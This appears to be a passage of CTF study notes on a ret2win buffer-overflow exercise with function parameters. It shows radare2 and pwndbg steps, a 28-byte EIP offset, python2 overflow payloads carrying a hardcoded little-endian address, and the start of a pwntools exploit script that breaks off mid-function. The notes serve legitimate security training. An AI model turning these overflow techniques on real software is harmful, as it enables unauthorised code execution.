## (4) Ret2Win with Function Parameters (x86/x64)
Files: https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101/04-ret2win_with_params

   1. Look at _source code_ and see the `scanf("%s", buffer);`
     + Overflow here
     
   2. Since **No ASLR/PIE** get the _address to_ the `hacked()` function 
     + `r2 ret2win`
     + `[]> aaa`
     + `[]> afl`
     + Get the address of `sym.hacked`
      - `0x08049182`
     
   3. Use `pwndbg`
     + Use `cyclic` to find the `EIP` offset (it's **28** in this case)
     
   4. Check a successful spacing: `python2 -c "print 'A'*28 + 'B'*4 + 'C'*32" > output`
     + Check this gdb 
     + `gdb <binary>`
     + `pwndbg> run < output`
     
   5. Manual Exploit with hardcoded address from step 2 above ()
     + `python2 -c "print 'A'*28 + '\x82\x91\x04\x08'" > output`
      - format is because we're looking at a _little endian_ architecture
     + `gdb <binary>`
     + `pwndbg> run < output`
     + You'll get a print statemend saying you're **unauthorized**
     
   6. However, this `hacked()` function takes in **2 function parameters**
     + If you look at _source code_ or _Ghidra_, you see:
       `if(first == 0xdeadbeef && second == 0xc0debabe){`
   
### 7.  Write exploit script that _provides these parameters_
      ```
      from pwn import *

      # Allows easy swapping betwen local/remote/debug modes
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      
      def find_ip(payload):
          # Launch process and send payload
          p = process(exe)
          p.sendlineafter(b':', payload)
          # Wait for the process to crash
          p.wait()
          # Print out the address of EIP/RIP at the time of crashing
          ip_offset = cyclic_find(p.corefile.pc)  # x86
          # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64